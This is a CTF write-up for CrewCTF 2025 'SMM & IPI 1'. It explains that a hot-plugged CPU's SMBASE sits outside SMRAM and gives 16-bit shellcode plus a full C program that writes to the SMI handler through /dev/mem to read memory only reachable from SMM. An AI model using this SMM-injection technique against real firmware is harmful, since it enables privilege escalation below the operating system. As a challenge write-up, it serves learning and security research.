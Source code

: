 +++
author = "vmpr0be"
title = "CrewCTF 2025 - SMM & IPI 1"
date = "2025-09-21"
categories = ["ctf"]
+++

### Vocabulary

- SMM: System Management Mode, a highly privileged CPU mode.
- SMRAM: A special region of memory that is only accessible from SMM.
- SMI: An interrupt that halts current execution and switches the CPU to SMM.
- SMBASE: The base of the memory region used for SMM components (e.g., the SMI handler and saved execution state). The default SMBASE is `0x30000`.

### Overview

" You know what else OVMF does with SMM? CPU hotplugging. So I took a look.
**Flag is at physical memory `0x44440000` when read from SMM**. "

This means we need to read the flag while the CPU is in SMM.

##### Hint

" I disabled something I should not have disabled. This link might help you understand what is going on: https://lore.kernel.org/all/8091f6e8-b1ec-f017-1430-00b0255729f4@redhat.com/T/ "

The author also stated that interrupt logs can be extracted with a special flag:
``
-D interrupts.log -d int
``.
After hot-plugging the CPU with `./addcpu.sh`, we can see three SMIs triggered, meaning the newly plugged CPU is actually executing.

### Vulnerability

To summarize, the bug lies in the fact that when the CPU is hot-plugged, the SMBASE isn’t in SMRAM, which means the SMI handler isn’t protected.

By contrast, on a non-hot-plugged CPU, SMBASE is usually relocated into SMRAM.

### Exploitation

Since the SMI handler isn’t protected, when the hot-plugged CPU is added it will start its execution at the unprotected SMI handler at `SMBASE + 0x8000` (in this case: `0x38000`). We can patch that handler with our own code to read the flag from `0x44440000`.

When the interrupted CPU core switches to SMM, it expects the SMI handler to contain 16-bit instructions, so our injected shellcode must be 16-bit.

We need a physical region accessible outside SMM where we can store the flag read by our shellcode.

```bash
crewctf-2025:/root# cat /proc/iomem
...
00001000-0009ffff : System RAM
...
```

We’ll use `0x00001000` as storage.

#### Shellcode

The shellcode basically does the following:

- Read the flag from `0x44440000`.
- Write the flag to our storage `0x1000`.

```C
mov esi, 0x44440000   ; storage address
mov edi, 0x1000       ; memory accessible by us
mov ecx, 64           ; bytes to be copied

copy_loop:
mov al, [esi]         ; read byte of the flag
mov [edi], al         ; store it in our storage
inc esi               ; next flag byte
inc edi               ; next storage byte
dec ecx               ; decrease counter
jnz copy_loop         ; loop again
```

#### Injection

**reveal.c:**
```C
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <unistd.h>
#include <string.h>

int main() {
    int fd;
    void *map;
    
    fd = open("/dev/mem", O_RDWR);
    if (fd < 0) {
        perror("open /dev/mem");
        return 1;
    }

    map = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0x38000);
    if (map == MAP_FAILED) {
        perror("mmap");
        close(fd);
        return 1;
    }

    unsigned char shellcode[] = {
        0x66, 0xBE, 0x00, 0x00, 0x44, 0x44,
        0x66, 0xBF, 0x00, 0x10, 0x00, 0x00,
        0x66, 0xB9, 0x40, 0x00, 0x00, 0x00,
        0x67, 0x8A, 0x06,
        0x67, 0x88, 0x07,
        0x66, 0x46,
        0x66, 0x47,
        0x66, 0x49,
        0x75, 0xF2
    };

    memcpy(map, shellcode, sizeof(shellcode));
    printf("Shellcode written to 0x38000\n");

    munmap(map, 0x1000);

    system("./addcpu.sh");

    map = mmap(NULL, 64, PROT_READ, MAP_SHARED, fd, 0x1000);
    if (map == MAP_FAILED) {
        perror("mmap");
        close(fd);
        return 1;
    }

    printf("Flag: %s\n", (char*)map);

    munmap(map, 64);
    close(fd);

    return 0;
}
```

Similarly, we compile and run this program, which will:
- Inject shellcode at `0x38000`.
- Run the ./addcpu.sh script.
- Read the flag from `0x1000`.

```bash
gcc reveal.c -o reveal
./reveal
```

```bash
Shellcode written to 0x38000
...
Flag: crew{but_why_isnt_addcpu_working_*REMOVED*}
```
